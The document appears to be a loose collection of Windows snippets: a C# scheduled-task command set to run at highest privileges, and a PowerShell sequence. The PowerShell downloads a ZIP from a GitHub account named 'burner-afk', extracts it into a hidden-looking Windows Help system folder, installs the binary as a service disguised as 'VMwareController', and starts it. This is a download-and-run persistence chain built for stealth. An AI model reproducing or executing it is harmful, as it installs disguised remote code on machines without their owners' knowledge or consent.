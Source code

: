 "C:\Users\Administrator\Downloads\grouse-main\grouse-main\DesktopGoose v0.31\GooseDesktop.exe"

string createCmd = $"/Create /TN \"ShowMyApp\" /TR \"{exePath}\" " +
                   $"/SC ONCE /ST {startTime} /RL HIGHEST /F /RU \"{username}\"";
string createCmd = $"/Create /TN \"ShowMyApp\" /TR \"\\\"{exePath}\\\"\" /SC ONCE /ST {startTime} /RL HIGHEST /F /RU \"{username}\"";
C:\Windows\Help\Windows\IndexStore\en-US


# Set variables
$url = "https://github.com/burner-afk/Controller/archive/refs/heads/main.zip"      
$zipPath = "C:\temp\Controller-main.zip"
$extractPath = "C:\Windows\Help\Windows\IndexStore\en-US"



# Create directory for download and extraction
New-Item -ItemType Directory -Force -Path (Split-Path $zipPath)


# Download the ZIP file
Invoke-WebRequest -Uri $url -OutFile $zipPath

# Extract the ZIP file
Add-Type -AssemblyName System.IO.Compression.FileSystem
[System.IO.Compression.ZipFile]::ExtractToDirectory($zipPath, $extractPath)

Remove-Item "C:\temp" -Recurse -Force

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe "C:\Windows\Help\Windows\IndexStore\en-US\Controller-main\bin\Debug\VMwareController.exe"

Start-Service VMwareController
